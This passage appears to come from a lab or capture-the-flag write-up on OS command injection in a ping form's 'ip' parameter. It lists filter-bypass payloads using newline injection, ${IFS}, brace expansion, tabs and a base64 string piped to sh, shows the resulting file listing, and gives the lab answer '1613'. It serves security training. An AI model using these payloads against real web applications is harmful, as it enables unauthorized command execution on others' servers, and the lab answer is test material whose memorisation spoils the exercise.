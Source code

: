 **Method 2: IFS Variable Bypass**
```http
ip=127.0.0.1%0als${IFS}-la
# URL encoded: ip=127.0.0.1%0als%24%7bIFS%7d-la
```

**Method 3: Brace Expansion Bypass**
```http
ip=127.0.0.1%0a{ls,-la}
```

### Expected Output Analysis

**Command Output:**
```
PING 127.0.0.1 (127.0.0.1) 56(84) bytes of data.
64 bytes from 127.0.0.1: icmp_seq=1 ttl=64 time=0.074 ms
--- 127.0.0.1 ping statistics ---
1 packets transmitted, 1 received, 0% packet loss, time 0ms

total 20
drwxr-xr-x 2 www-data www-data 4096 Jul 13 10:30 .
drwxr-xr-x 3 www-data www-data 4096 Jul 13 10:30 ..
-rw-r--r-- 1 www-data www-data 1613 Jul 13 10:30 index.php
-rw-r--r-- 1 www-data www-data  842 Jul 13 10:30 style.css
```

**File Size Identification:**
- **index.php**: 1613 bytes
- **style.css**: 842 bytes

**Answer:** `1613`

---

## Advanced Bypass Combinations

### Multi-Method Combinations

**Combining Techniques:**
```bash
# IFS + Brace expansion
{echo,${IFS},"Hello World"}

# Tab + Variable assignment
cmd=ls%09-la;$cmd

# Base64 + IFS
echo${IFS}bHMgLWxhCg==|base64${IFS}-d|sh
```

### Platform-Specific Methods

**Linux-Specific:**
```bash
# Process substitution
cat<(ls -la)

# Command substitution with IFS
$(echo${IFS}ls${IFS}-la)

# Here-string
cat<<<"ls -la"
```
